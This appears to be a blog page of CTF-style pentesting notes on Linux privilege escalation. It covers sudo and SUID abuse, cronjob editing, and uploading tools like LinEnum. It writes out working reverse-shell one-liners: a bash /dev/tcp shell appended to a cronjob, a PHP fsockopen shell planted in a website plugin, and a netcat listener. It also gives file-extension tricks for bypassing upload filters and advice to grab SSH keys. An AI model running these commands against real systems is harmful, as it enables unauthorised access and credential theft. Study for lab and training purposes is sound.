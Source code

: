 ```yaml
---
layout: page
title: Privilege Escalation
subtitle: The MANY different ways to escalate your privileges
image: /assets/fe.ico
description: The MANY different ways to escalate privileges
permalink: /tipsandtricks/privilegeescalation/
#hero_image: /assets/fe.ico
#hero_height: is-fullheight
---
```


# Introduction
Alrighty, so there's a lot that can be said here. I'm unsure how far into this I should go before I lose my mind alongside you, so this might be briefer than it could be. We'll see.
<br><br>
To better qualify the situation - privilege escalation implies you already have some type of access to a system, say through a basic end user that had a poor password. The following scenarios imply you already have a shell of some kind, and you are looking to further exploit that and get to the point where you are running the shell as an admin / root, or at least can execute commands as one.
<br><br><br>
# Let's start with sudo -l and SUID permissions
One of the go to commands once you've established yourself within a shell on a system is a quick `sudo -l`. It takes two seconds to type and another thirty seconds to check if anything from those results might be useful. What that does is list the commands that you can run as sudo, on a properly configured system this should be all but zero for normal users.
<br><br>
Let's say there is an improperly configured system that allows you to run `/usr/bin/less` with sudo rights. This could lead to you reading files that you should not have access to. The easiest way to discover if there is a way to exploit whatever is listed from the `sudo -l` command is to reference [gtfobins](https://gtfobins.github.io/). They have a _massive_ library of ways to bypass restrictions and escalate your privileges - their site will be referenced multiple times throughout my [CTF Exploits](/blog) page.
<br><br>
On a very similar note, we can use files that have the SUID permissions (can run files with the owner's privileges) to escalate our privileges. We can check what files like this exist by entering `find / -perm -u=s -type f 2>/dev/null`. This is very similar to any other find command, what this searches for are files that contain those SUID permissions. And again, if this returns you a list reference gtfobins for any known exploits from them.
<br><br><br>

# Uploading reverse tcp shells
There are numerous ways you can start a reverse shell, I've modified plugins for a blog, replaced a file that was used by a cronjob, there's a range of ways.
<br><br>
A great site for this is [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), as they offer some quick commands that, once edited for your IP address and port, can start those shells via bash, perl, python, php and other methods. They also have more material on that side beyond just how to start reverse shells, including stuff relating to SQL injection and more notes on John.
<br><br>
Back to the reverse shell side of things, let's use the example I mentioned with modifying the file used by the cronjob. Essentially I was able to edit in the following command to a cronjob that executed every minute, and what I appended to that file was the following:<br>
`bash -i >& /dev/tcp/10.18.91.219/8000 0>&1`<br><br>
While in another tab I had a netcat listener on that same port: `nc -lvnp 8000`
<br><br>
Basically what this two step process is saying is:<br>
- First, upload a reverse shell somehow, that will somehow be called (examples given here were as activated plugins or by a cronjob)
- And then second, you need to be listening on the same port that the reverse shell is trying to reach you at. When that command executes it will try to initiate that connection over port `8000` at my IP address of `10.18.91.219`. If I am not listening over that port I will miss the connection<br><br>

The other example was with the plugin, and although I forget exactly how it was worded, I do recall I was able to gain a foothold into their website editor and from there I could edit their plugins. I edited one of their already active plugins with something like:<br>
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`<br><br>
And then curled the location for that specific php plugin, which started the reverse shell, and my netcat listener was already waiting.<br><br>

There are many different ways you can initiate that reverse shell, it all comes down to what you have access to, what you should modify, and your permissions for those files.
<br><br><br>

# Upgrading / starting shells
Sometimes you might find that you have established a shell to a machine, but it is not the best or maybe not as stable as you would like. Some simple ways to do this include through python and perl, although there are more.
<br><br>
With python that would be:<br>
`python -c 'import pty;pty.spawn("/bin/bash")'`
<br><br>
Through perl:<br>
`perl -e 'exec "/bin/sh";'`
<br><br><br>

# Reoccuring jobs / tasks on machines
Also known as cronjobs, although there are different kinds. Sometimes these will run exploitable or editable tasks periodically. If you can find a way to change them directly, or resources / modules they interact with, this can be yet another way to gain access to more information or escalate your access. On most linux distributions you will find this at `/etc/crontab`. You can access this with a text editor or with `crontab -e`.
<br><br><br>

# LinEnum
This is another tool that can be found on GitHub, and can provide useful information on a target machine if you can get the permissions needed to run it. It does a lot of the things that are mentioned on this page automatically and generates a report for you to view later. Once you are on the machine you can get the file via wget or curl to the `/tmp` directory and work from there. The bash file is located [here](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).<br><br>
Note: You may or may not need to `chmod +x` that file to give yourself executable permissions on it.
<br><br><br>

# Other
Anytime you can find ssh keys, grab 'em. Reference the [bruteforcing](/tipsandtricks/bruteforcing/) page for ways to crack those and use them to your advantage.
<br><br>
As mentioned before, sometimes gaining that next foothold includes uploading e.g. php files to start a reverse tcp shell with yourself. However, depending where you upload they might restrict you to only certain types of files, or disallow certain types of files. Some ways to _maybe_ get around this is capitilize letters like .Php or .phP instead of .php, maybe see if it'll accept a .phtml file, etc. You get the idea. Security controls are meant to secure something otherwise not secure (duh), but that doesn't mean they account for everything, even if that means something as simple as denying file types by certain extensions only.
